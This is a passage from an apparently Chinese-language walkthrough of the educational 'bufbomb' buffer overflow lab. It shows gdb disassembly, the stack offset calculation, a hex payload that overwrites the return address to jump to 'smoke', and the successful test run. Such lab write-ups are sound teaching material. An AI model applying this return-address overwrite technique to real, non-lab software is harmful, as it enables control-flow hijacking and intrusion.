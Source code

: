 ```
   0x0804920a <+22>:  leave
   0x0804920b <+23>:  ret
End of assembler dump.

(gdb) disas smoke
Dump of assembler code for function smoke:
   0x08048c18 <+0>: push   %ebp
   0x08048c19 <+1>: mov    %esp,%ebp
   0x08048c1b <+3>: sub    $0x18,%esp
   0x08048c1e <+6>: movl   $0x804a4d3,(%esp)
   0x08048c25 <+13>:  call   0x80488c0 <puts@plt>
   0x08048c2a <+18>:  movl   $0x0,(%esp)
   0x08048c31 <+25>:  call   0x804937b <validate>
   0x08048c36 <+30>:  movl   $0x0,(%esp)
   0x08048c3d <+37>:  call   0x8048900 <exit@plt>
End of assembler dump.

```

根据堆栈知识和查询到的smoke入口地址`0x08048c18` 构建字符串**注意小端**

栈高地址

|return address|4(%ebp)|
|---|---|
|old ebp value|(%ebp)|
|...|...|
|string start|-0x28(%ebp) 通过<+6>发现|

栈低地址

`0x4-(-0x28)=44` 所以要`44`个字符以后才会覆盖`return address`

`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 8c 04 08`

> tip:如果你用的是vim那么可以在正常模式输入`44` 按`i`进入编辑模式,输入`00 `按两次`ESC`键盘 就可以得到44个00了

写入`exploit.ans0`

测试

```
cat exploit.ans0 | ./hex2raw | ./bufbomb -u cromarmot
Userid: cromarmot
Cookie: 0x7f9d2743
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```

至此我们学会了基本的overflow 来制造函数跳转

### fizz (level 1)
